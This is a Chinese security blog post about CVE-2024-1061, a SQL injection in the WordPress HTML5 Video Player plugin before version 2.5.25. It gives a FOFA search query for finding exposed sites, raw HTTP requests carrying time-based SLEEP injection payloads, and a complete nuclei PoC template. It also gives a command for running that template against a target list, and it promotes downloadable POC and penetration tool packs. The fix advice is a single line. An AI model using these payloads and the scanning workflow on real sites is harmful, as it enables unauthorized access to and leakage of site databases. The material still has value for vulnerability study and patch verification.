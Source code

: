 #  CVE-2024-1061   
原创 fgz  AI与网安   2024-02-04 07:00  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
WordPress Plugin HTML5 Video Player 安全漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
WordPress Plugin HTML5 Video Player 2.5.25之前版本  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
WordPress和WordPress plugin都是WordPress基金会的产品。WordPress是一套使用PHP语言开发的博客平台。该平台支持在PHP和MySQL的服务器上架设个人博客网站。WordPress plugin是一个应用插件。  
  
WordPress Plugin HTML5 Video Player 2.5.25之前版本存在安全漏洞，该漏洞源于通过 get_view 函数中 id 参数发现包含 SQL 注入漏洞。  
  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
"wordpress" && body="html5-video-player"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMGibsNL6RLKtzgzz8OOHF9VnmaqCgDmQib8VxDSmurPs0lzhNDr69hlzGTBLunfB9OSCBlmibQ75Qkw/640?wx_fmt=png&from=appmsg "")  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
网站正常访问时间在1秒内，构造POC数据包，使睡眠6秒，然后看响应时间是否大于6秒  
```
GET /?rest_route=/h5vp/v1/view/1&id=1'+AND+(SELECT+1+FROM+(SELECT(SLEEP(6)))a)--+- HTTP/1.1
Host: 192.168.40.130:112
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMGibsNL6RLKtzgzz8OOHF9Via3WicWhr17LE4T6w8GN5SJGYakiaRxgOZuVCF69bZUq3epKksKziaibWWA/640?wx_fmt=png&from=appmsg "")  
  
  
睡眠时间改为10秒再次请求，看响应时间是否大于10秒  
```
GET /?rest_route=/h5vp/v1/view/1&id=1'+AND+(SELECT+1+FROM+(SELECT(SLEEP(10)))a)--+- HTTP/1.1
Host: 192.168.40.130:112
User-Agent
: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMGibsNL6RLKtzgzz8OOHF9VhzJQlg6rNpWI1aF4qXJAkRcKqfu9rTwnkY8QLQnIRiaejmCPFq9tMpA/640?wx_fmt=png&from=appmsg "")  
  
  
  
漏洞复现成功  
  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: CVE-2024-1061

info:
  name: WordPress HTML5 Video Player - SQL Injection
  author: xxcdd
  severity: high
  description: |
    WordPress HTML5 Video Player plugin is vulnerable to SQL injection. An unauthenticated attacker can exploit this vulnerability to perform SQL injection attacks.
  impact: |
    Successful exploitation of this vulnerability could allow an attacker to perform SQL injection attacks, potentially leading to unauthorized access, data leakage, or further compromise of the WordPress site.
  remediation: |
    Vendor did not acknowledge vulnerability but the issue seems to have been fixed in version 2.5.25.
  reference:
    - https://www.tenable.com/security/research/tra-2024-02
    - https://wordpress.org/plugins/html5-video-player
    - https://nvd.nist.gov/view/vuln/detail?vulnId=CVE-2024-1061
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:N/A:N
    cvss-score: 8.6
    cve-id: CVE-2024-1061
    cwe-id: CWE-89
  metadata:
    verified: true
    fofa-query: '"wordpress" && body="html5-video-player"'
  tags: cve,cve2024,wp,wordpress,wp-plugin,sqli,html5-video-player

http:
  - method: GET
    path:
      - "{{BaseURL}}/?rest_route=/h5vp/v1/view/1&id=1'+AND+(SELECT+1+FROM+(SELECT(SLEEP(5)))a)--+-"

    matchers:
      - type: dsl
        dsl:
          - 'duration>=5 && duration<=7'
          - 'contains(header, "application/json")'
          - 'contains_all(body, "created_at", "video_id")'
        condition: and
# digest: 4b0a0048304602210082f5c18e0ac8422e532f5581f775dfd9a57d7c059cf6f41622d7a00306bfa3c6022100d0500ab738261efc3de306be7f8149c4a2f98b4c1560c26fe3617520ce9dd6e9:922c64590222798bb761d5b6d8e72950
```  
  
运行POC  
```
nuclei.exe -l data/wordpress.txt -t mypoc/cve/CVE-2024-1061.yaml
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMGibsNL6RLKtzgzz8OOHF9V9bo8viaduVEuvMWcgZGWrLr7GBIFmYXdzicicVCIQ6UtWhKJrp0S9KCtg/640?wx_fmt=png&from=appmsg "")  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
08  
  
—  
  
福利领取  
  
  
关注公众号，在公众号主页点发消息发送关键字免费领取。  
  
  
  
**后台发送【****电子书**  
**】关键字获取学习资料网盘地址**  
  
****  
**后台发送【POC】关键字获取POC网盘地址**  
  
  
**后台发送【工具】获取渗透工具包**  
  
  
